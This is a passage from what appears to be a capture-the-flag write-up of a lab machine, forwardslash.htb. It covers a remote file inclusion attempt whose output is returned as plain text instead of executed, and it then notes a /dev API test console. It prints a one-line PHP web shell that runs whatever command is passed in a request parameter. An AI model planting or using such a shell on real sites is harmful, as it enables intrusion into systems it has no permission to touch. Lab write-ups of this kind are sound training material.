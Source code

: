             <input type="text" name="url" disabled style="width:600px"><br>
            <input style="width:200px" type="submit" value="Submit" disabled>
    </form>
    </body>
    <.md>
    <?php system($_REQUEST["cmd"]); ?>



That means that the data included isn't executed as PHP. Instead of
something like `require()` or `include()`, it must be using something
like `file_get_contents()`. Sending a webshell via RFI won't provide
code execution.

#### /dev

Grabbing `http://backup.forwardslash.htb/dev/` as a profile picture
loads the API test console:

![](/img/image-20200405152338261.png)
